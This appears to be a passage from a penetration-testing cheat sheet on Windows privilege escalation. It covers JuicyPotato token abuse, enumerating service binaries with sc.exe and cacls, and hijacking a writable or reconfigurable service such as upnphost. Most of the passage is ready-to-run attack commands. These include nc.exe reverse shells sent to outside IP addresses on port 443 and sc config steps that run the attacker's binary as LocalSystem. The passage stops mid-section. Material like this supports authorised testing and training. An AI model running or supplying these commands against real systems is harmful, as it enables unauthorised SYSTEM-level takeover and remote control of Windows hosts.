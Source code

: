 - [Juicy-Potato-description](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/juicypotato)
- [Juicy-Potato release](https://github.com/ohpe/juicy-potato/releases)

##### Usage
We will need `CLSID`'s to use for the scrip. Either by running the script [Get-CLSID.ps1](https://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1) or by finding the corresponding one inside this [list](https://ohpe.it/juicy-potato/CLSID/) and use psexec to change to a service account: [pstools](https://download.sysinternals.com/files/PSTools.zip)

```powershell
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *
# or 
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

#### Windows Services

##### sc.exe

```sh
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

`cacls "C:\path\to\file.exe"`

we want to look for `BUITIN/users:(F)` or when our user/usergroup has `(F)` or `(C)` rights.

then we can just replace that exe with our own malicious exe and rerun the service:

`net stop [service name] && net start [service name].`

###### Example

```sh
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.119.194 443 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
sc qc upnphost
net start upnphost
```

##### Microsoft systems internal suite

This system's internal suite: [Link](https://download.sysinternals.com/files/SysinternalsSuite.zip) contains a variety of scripts that can be used to check user privileges.

Now we can use the following: 

